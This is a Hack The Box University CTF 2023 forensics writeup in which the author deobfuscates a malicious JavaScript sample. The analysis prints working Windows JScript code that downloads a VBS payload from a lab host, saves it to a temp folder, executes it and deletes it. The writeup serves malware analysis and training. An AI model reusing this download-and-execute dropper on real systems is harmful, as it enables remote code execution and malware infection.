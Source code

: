 ```yaml
---
layout: single
title:  "Hack The Box University CTF 2023: Brains & Bytes Writeup"
seo_title: "CTF writeup for some of the Forensics and Pwn Challenges of the Hack The Box University CTF 2023 Competition"
date:   2023-10-28 15:30:00 +0200
categories: ['HackTheBox', 'CTF', 'Forensics', 'Web-Exploitation']
classes: wide
toc: true
excerpt: Hack The Box University CTF 2023 writeups for forensics and pwn challenges.
header:
    image: /assets/images/headers/htb-uni-ctf.jpg
    teaser: /assets/images/headers/htb-uni-ctf.jpg
---
```

# Hack The Box University CTF 2023: Brains & Bytes - Writeups
## Forensics: One Step Closer - Easy
### Description
Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

### Vaccine File
We are given a `vaccine.js` file that contains some malicious obfuscated JS code. Two function are never used inside the script, so we can remove them. After renaming some variables we can figure out what the remainder of the script is doing:
```js
var HTTPObject = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var FileSystemObject = new ActiveXObject("Scripting.FileSystemObject");
var ShellObject = new ActiveXObject("WScript.Shell");
var TmpPath = 'C:\\Windows\\Temp';
var Filename = FileSystemObject.GetTempName() + ".vbs"; 
var FilePath = FileSystemObject.BuildPath(TmpPath, Filename);
HTTPObject.open("GET", "http://infected.human.htb/d/BKtQR", false);
HTTPObject.send();

if (HTTPObject.status === 200) {
    var scriptText = HTTPObject.responseText;
    var FileHandle = FileSystemObject.CreateTextFile(FilePath, true);
    FileHandle.write(scriptText);
    FileHandle.close();
    var ExecutionHandle = ShellObject.Exec('wscript "' + FilePath + '"');
    while (ExecutionHandle.Status === 0) {
        WScript.Sleep(100);
    }
    FileSystemObject.DeleteFile(FilePath);

} else {
    WScript.Echo("Fatal: " + HTTPObject.status);
}
```
The script will download a `VBS` file, save it in a temp folder and execute it. The malicious file is coming from `http://infected.human.htb/d/BKtQR`. After startup up the docker instance and adding the domain to our host file, we can download this file to our machine.

